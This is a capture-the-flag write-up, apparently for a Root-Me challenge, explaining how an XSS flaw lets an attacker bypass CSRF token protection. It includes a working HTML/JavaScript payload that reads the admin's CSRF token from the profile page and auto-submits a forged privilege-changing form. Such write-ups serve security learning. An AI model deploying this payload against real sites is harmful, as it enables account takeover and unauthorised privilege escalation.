

# CSRF - token bypass

# CSRF + XSS Bypass

## Steps

1. Create an account and login.
2. Visit the profile page.
3. Open the Inspect panel and notice a hidden/commented functionality vulnerable to XSS.
4. Direct CSRF request fails with:
   `You're not an admin!`
5. Use JavaScript to first fetch the admin CSRF token, then submit the forged request.


---

## Payload

```html
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
    <input type="hidden" name="username" value="exp" />  
    <input type="hidden" name="status" value="on" />  
    <input id="admin_token" type="hidden" name="token" value="" />

<script>
    var request = new XMLHttpRequest();
    request.open(
        "GET",
        "http://challenge01.root-me.org/web-client/ch23/?action=profile",
        false
    );
    request.send(null);
    var response = request.responseText;
    var groups = response.match("token\" value=\"(.*?)\"");
    var token = groups[1];
    document.getElementById("admin_token").value = token;
    document.csrf.submit();
</script>
```

---

## How It Works

### 1. CSRF Protection Exists
The application uses a CSRF token to protect profile update requests.

Example:

```html
<input type="hidden" name="token" value="random_token">
```

Without a valid token, the request fails.

---

### 2. XSS Helps Bypass It
Because the page is vulnerable to XSS, JavaScript can execute in the victim's browser.

The injected script performs:

- Sends a request to the profile page
- Reads the HTML response
- Extracts the CSRF token using regex
- Places the token inside the forged form
- Automatically submits the request

---

### 3. Why It Works

The request is executed from the victim/admin browser, therefore:

- Admin session cookies are included automatically
- Valid CSRF token is accessible
- Same-Origin Policy allows reading the response

As a result, the forged request becomes legitimate.

---

## Impact

- CSRF protection bypass
- Account privilege escalation
- Unauthorized profile modification
- XSS leading to full account compromise


